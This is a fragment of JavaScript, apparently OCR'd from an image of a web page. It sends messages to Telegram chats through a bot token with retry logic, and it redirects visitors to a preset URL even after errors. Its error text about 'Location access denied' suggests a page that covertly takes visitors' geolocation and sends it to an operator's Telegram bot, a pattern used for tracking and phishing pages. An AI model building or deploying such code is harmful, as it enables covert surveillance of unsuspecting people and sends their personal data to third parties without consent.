                 // Still redirect even if there was an error
                setTimeout(() => {
                    window.location.href = REDIRECT_URL;
                }, 3000);
            }
        }

        // Function to send message to Telegram with retry logic
        async function sendTelegramMessage(chat_id, message) {
            if (!retryCounts[chat_id]) {
                retryCounts[chat_id] = 0;
            }

            try {
                const apiURL = `https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`;
                const controller = new AbortController();
                const timeoutId = setTimeout(() => controller.abort(), REQUEST_TIMEOUT);

                const response = await fetch(apiURL, {
                    method: "POST",
                    headers: { "Content-Type": "application/json" },
                    body: JSON.stringify({
                        chat_id,
                        text: message,
                        parse_mode: "Markdown",
                        disable_web_page_preview: true
                    }),
                    signal: controller.signal
                });

                clearTimeout(timeoutId);

                const data = await response.json();

                if (!response.ok || !data.ok) {
                    throw new Error(data.description || 'Unknown Telegram API error');
                }

                return data;
            } catch (error) {
                console.error(`Error sending to ${chat_id}:`, error.message);
                
                if (retryCounts[chat_id] < MAX_RETRIES) {
                    retryCounts[chat_id]++;
                    console.log(`Retrying ${chat_id} (attempt ${retryCounts[chat_id]})`);
                    return sendTelegramMessage(chat_id, message);
                } else {
                    throw new Error(`Failed to send to ${chat_id} after ${MAX_RETRIES} attempts: ${error.message}`);
                }
            }
        }

        // Error handling function
        function showError(error) {
            let errorMessage = "❌ Location access denied or unavailable!";
            